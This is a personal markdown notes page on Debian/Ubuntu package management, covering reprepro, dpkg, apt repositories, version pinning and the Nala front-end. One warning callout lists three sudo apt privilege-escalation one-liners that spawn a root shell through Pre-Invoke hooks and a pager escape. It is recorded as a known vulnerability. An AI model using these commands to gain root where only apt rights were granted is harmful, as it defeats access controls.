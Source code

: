 ```yaml
---
tags:
  - Linux
  - Linux/Debian
  - Linux/Ubuntu
visibility: public
title: Debian
---
```


# Repositories & Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

### Debian Packages

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [Jurjen's notes for packages on deb.rug.nl in Obsidian](obsidian://vault/lwp-docs/wiki/software/adding-a-package-to-deb.rug.nl) and [Jurjen's notes for packages on deb.rug.nl in LWP Docs](https://lwp.pages-817d151d.nip.io/documentation/wiki/wiki/software/adding-a-package-to-deb.rug.nl/)

```bash
# add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
# test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
# actually pull changes to target channel: replace checkpull by pull
```

### dpkg

```bash
# extract package
dpkg -x [-X] <package> <destination>
# compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

# Linux/apt

Add repository: add file in `/etc/apt/sources.list.d/` with

```
deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main
```

Install specific version

```bash
sudo apt install package_name=package_version
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
> ```

`apt-get clean`: empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
[apt-fast](https://github.com/ilikenwf/apt-fast): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package

Speed up downloads by using multiple parallel connections: (unofficial) [package `apt-fast`](https://github.com/ilikenwf/apt-fast)

#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/rug/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```

#### Nala

[![[github.svg]] Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>
